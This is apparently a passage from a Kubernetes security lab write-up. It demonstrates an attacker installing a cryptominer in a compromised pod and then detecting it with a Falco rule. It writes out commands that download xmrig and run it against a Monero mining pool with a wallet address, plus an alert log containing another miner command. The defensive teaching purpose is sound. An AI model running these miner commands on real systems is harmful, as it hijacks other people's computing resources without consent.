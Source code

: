   ###### Step3: Install a cryptominer

1. Test that if we can execute any command and access the whole file system in the pod.

```shell
apt remove curl -y
apt install curl -y
```

2. Download, install and run crypto miner.  (For now, the lab enviroment is down and for safety concerns, we didn't actually run the attack, we demostrate the way to detect and defense in the following steps).

```shell
curl -OL https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz
tar -xvf xmrig-6.16.4-linux-static-x64.tar.gz
cd xmrig-6.16.4
./xmrig --donate-level 8 -o xmr-us-east1.nanopool.org:14433 -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero --background
```

###### Step3: Detection for abnormal activity

1. Detect outbound connections to common miner pool ports

   The predifined condition `net_miner_pool`, `trusted_images_query_miner_domain_dns` is continously updating by the community, adding new malicious IP/Ports into it using Macro methods.

   ```yaml
   # The rule is disabled by default.
   # Note: Falco will send DNS requests to resolve miner pool domains which may trigger alerts in your environment.
   - rule: Detect outbound connections to common miner pool ports
     desc: Miners typically connect to miner pools on common ports.
     condition: net_miner_pool and not trusted_images_query_miner_domain_dns
     enabled: true
     output: Outbound connection to IP/Port flagged by cryptoioc.
   ch (command=%proc.cmdline port=%fd.rport ip=%fd.rip
   container=%container.info image=%container.image.repository)
     priority: CRITICAL
     tags: [network, mitre_execution]
   ```

   If there is a crypto-mining process running and communicating to the miner domains defined in the list, the alert will be triggered:

   ```bash
   Critical Outbound connection to IP/Port flagged by cryptoioc.ch (command=minerd2 -a cryptonight -o stratum+tcp://monero.crypto-pool.fr:3333 -u 49TfoHGd6apXxNQTSHrMBq891vH6JiHmZHbz5Vx36nLRbz6WgcJunTtgcxno G6snKFeGhAJB5LjyAEnvhBgCs5MtEgML3LU -p x port=3xxx0 ip=xxx.xxxx.x.x container=k8s.ns=insecure-nginx k8s.pod=insecure-nginx-8455b6d49c-z6wb9 container=07dce07d5100 image=kaizheh/victim) k8s.ns=insecurez-nginx k8s.pod=insecure-nginx-8455b6d49c-z6wb9 container=07dce07d5100 k8s.ns=insecure-nginx k8s.pod=insecure-nginx-8455b6d49c-z6wb9 container=07dce07d5100
   ```

   If there is an alert generated by this rule, you should address it as high-priority. However, you will have to keep the mining domain and mining ports updated or there can be new malicious IP/Port not on the list can harm the cluster.
